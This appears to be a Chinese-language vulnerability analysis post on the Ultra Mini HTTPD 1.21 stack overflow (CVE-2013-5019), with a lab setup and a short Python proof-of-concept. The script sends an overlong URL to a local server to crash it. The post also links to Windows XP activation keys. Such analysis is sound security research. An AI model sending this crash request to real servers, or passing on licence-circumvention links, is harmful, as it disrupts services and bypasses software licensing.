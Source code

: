 MINI HTTPD 远程代码执行漏洞分析
=====================

> 本文是跟随k0师傅的脚步进行分析复现的，在此基础上做出了更为详尽的分析，向k0师傅学习。  
> All the credit goes to k0shl.
> 
> ## 漏洞说明

**Name:** Ultra Mini HTTPD Stack Buffer Overflow  
**Module:** exploit/windows/http/ultraminihttp\_bof  
**Source code:** [modules/exploits/windows/http/ultraminihttp\_bof.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/http/ultraminihttp_bof.rb)  
**Disclosure date:** 2013-07-10  
**Last modification time:** 2020-10-02 17:38:06 +0000  
**Supported architecture(s):** -  
**Supported platform(s):** Windows  
**Target service / protocol:** http, https  
**Target network port(s):** 80, 443, 3000, 8000, 8008, 8080, 8443, 8880, 8888  
**List of CVEs:** [CVE-2013-5019](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-5019)

该模块利用了Ultra Mini HTTPD 1.21中基于堆栈的缓冲区溢出，允许远程攻击者通过HTTP请求中的长资源名执行任意代码。此漏洞必须处理应用程序的请求处理程序线程在60秒后被监视器线程终止的问题。为此，它分配一些RWX内存，将负载复制到它并创建另一个线程。完成后，它终止当前线程，这样它就不会崩溃，从而不会使进程崩溃。

下载地址
----

下载地址最好使用我提供的链接处下载，操作系统不一致debug结果可能会显示不同。  
操作系统：[Windows XP Home with Service Pack 3 (x86) - CD Retail (English)](https://archive.org/details/windows-xp-all-sp-msdn-iso-files-en-de-ru-tr-x86-x64)  
漏洞软件：[MINI HTTPD](https://www.exploit-db.com/apps/847d772037159c4559bd41a439489ee7-minihttpd120.lzh)  
windbg for windows XP:[dbg\_x86\_6.11.1.404.msi](https://github.com/pyrasis/windowsprojectbook/blob/master/Applications/Debugging%20Tools%20for%20Windows/dbg_x86_6.11.1.404.msi)  
windows XP 激活码：[xp-key](https://github.com/10cks/xp)  
python安装包：[Python 3.3.4 Download](https://www.python.org/downloads/release/python-334/)  
pip安装：[get-pip.py](https://bootstrap.pypa.io/pip/3.3/get-pip.py)

测试环境
----

测试环境：Windows XP Home with Service Pack 3 (x86)  
调试软件：windbgIDA pro 8.3（宿主机）/ windbg 6.11（虚拟机）

漏洞复现
----

此漏洞形成的原因是因为Mini HTTPD服务器在接收请求的URL数据时，会将URL拼接成一个路径去尝试读取文件，当没有读取到文件的时候，会拼接成一个Not Found语句输出，在这个过程中，没有对URL的长度进行严格的检查，从而导致在最后拼接的时候发生栈溢出，导致返回地址覆盖从而执行任意代码，下面对此漏洞进行详细分析。  
这个漏洞也可以使用MSF进行直接利用，这里我们使用python poc进行分析：

```python
import sys
import socket

# Create the buffer.
buffer = ""

for i in range(10):
    buffer += chr(ord('A') + i) * 1000

HOST = '127.0.0.1'
PORT = 80

req = "GET /" + buffer + " HTTP/1.1\r\n\r\n"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send(req.encode())

```